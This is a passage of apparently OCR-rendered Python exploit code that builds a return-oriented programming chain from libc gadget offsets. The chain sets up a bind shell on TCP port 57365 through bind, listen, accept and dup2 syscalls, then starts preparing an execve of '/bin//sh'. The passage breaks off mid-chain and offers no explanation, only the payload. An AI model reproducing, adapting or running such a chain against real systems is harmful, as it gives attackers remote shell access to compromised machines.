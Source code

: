 		#Write socket data
		p += struct.pack('<Q', libcadr+0x000bcdf0) # pop rdx; ret
		p += '\x02\x00\xe0\x15\x00\x00\x00\x00'    # Type 2, port 57365
		p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
		p += struct.pack('<Q', libcadr+0x00000000003be080) # @ .data ; rdi = .data
		
		#Setup bind syscall
		p += struct.pack('<Q', libcadr+0x1fca7)# mov qword ptr [rdi], rdx ; ret
		p += struct.pack('<Q', libcadr+0x24885)# pop rsi ; ret
		p += struct.pack('<Q', libcadr+0x00000000003be080) # @ .data
		p += struct.pack('<Q',libcadr+0x00000000001960d7) # xchg eax, edi ; ret
		p += struct.pack('<Q',libcadr+0x000bcdf0) # pop rdx; ret
		p += struct.pack('<Q',0x10)               # rdx = 0x10
		p+= struct.pack('<Q',libcadr+0x000487a8)  #pop rax, ret
		p+= struct.pack('<Q',0x31)                # rax = 0x31
		p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret Bind(fd,.data,16)
		
		p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
		p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
		p+= struct.pack('<Q',0x32)              # rax = 0x32
		p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret Listen(fd)
		
		p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
		p+= struct.pack('<Q',0x2b)              # rax = 0x2b
		p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret
		
		p += struct.pack('<Q',libcadr+0x00000000001960d7) # #xchg eax, edi ; ret
		p+= struct.pack('<Q',libcadr+0x00024885)#pop rsi
		p+= struct.pack('<Q',0x2)               # rsi = 0x2
		p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
		p+= struct.pack('<Q',0x21)              # rax = 0x21
		p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret
		
		p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
		p+= struct.pack('<Q',libcadr+0x000000000003851f)# : sub eax, 1 ; ret
		p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
		p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
		p+= struct.pack('<Q',0x21)              # rax = 0x21
		p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret
		
		p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
		p+= struct.pack('<Q',libcadr+0x000000000003851f)# : sub eax, 1 ; ret
		p+= struct.pack('<Q',libcadr+0x0000000000110cef) # xchg eax, esi ; ret
		p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
		p+= struct.pack('<Q',0x21)
		p += struct.pack('<Q',libcadr+0x00000000000c1d05) # syscall; ret
		
		p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
		p += struct.pack('<Q', libcadr+0x00000000003be080+16) # @ .data
		p += struct.pack('<Q', libcadr+0x000000000001b290) # pop rax ; ret
		p += '/bin//sh'                                    # rax = '/bin/sh'
		p += struct.pack('<Q', libcadr+0x0000000000091c99) # mov qword ptr [rdi], rax ; pop rbx ; pop rbp ; ret
		p += struct.pack('<Q', 0x4141414141414141) # padding
		p += struct.pack('<Q', 0x4141414141414141) # padding
		p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
		p += struct.pack('<Q', libcadr+0x00000000003be088+16) # @ .data + 8
		p += struct.pack('<Q', libcadr+0x0000000000088b75) # xor rax, rax ; ret
		p += struct.pack('<Q', libcadr+0x0000000000091c99) # mov qword ptr [rdi], rax ; pop rbx ; pop rbp ; ret
		p += struct.pack('<Q', 0x4141414141414141) # padding
		p += struct.pack('<Q', 0x4141414141414141) # padding
		p += struct.pack('<Q', libcadr+0x0000000000022b9a) # pop rdi ; ret
		p += struct.pack('<Q', libcadr+0x00000000003be080+16) # @ .data
		p += struct.pack('<Q', libcadr+0x0000000000024885) # pop rsi ; ret
		p += struct.pack('<Q', libcadr+0x00000000003be088+16) # @ .data + 8
		p += struct.pack('<Q', libcadr+0x0000000000001b8e) # pop rdx ; ret